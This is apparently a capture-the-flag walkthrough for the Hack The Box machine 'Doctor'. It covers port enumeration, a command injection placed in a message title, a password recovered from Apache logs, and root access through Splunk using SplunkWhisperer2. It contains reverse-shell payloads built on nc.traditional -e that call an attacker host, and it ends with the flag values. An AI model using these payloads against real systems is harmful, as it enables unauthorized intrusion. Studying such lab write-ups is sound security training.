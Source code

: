 <pre>
Machine IP: 10.10.10.209

Enum:
    Open ports:
22/tcp   open  ssh      
80/tcp   open  ssl/http Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Splunkd


Go to the /etc/hosts and add:
    10.10.10.209    doctors.htb
http://doctors.htb/login?next=%2F => login page

    Go to register and create an account!
Go to new message change title with a new one and go for reverse shell:
    img src=http://boxip/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'attackbox'$IFS’attaport')
    $ nc -lvnp 9003


User flag:
$ cd    /var/log/apache2
$ backup
$ grep -r password?email
    *backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
$su shaun
$ password: Guitar123
User flag: /home/shaun

Priv Esc:
    *First download https://github.com/cnotin/SplunkWhisperer2 from git on your machine
    ! Make a nc listener 

    $ python PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.89 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/sh '10.10.14.89' '9002'"

    And got root!


User Flag: 006485ecedf8ff72b584ca87e57c0532
Root Flag: 267ebad127e4cc676902b28cfb61a711
</pre>
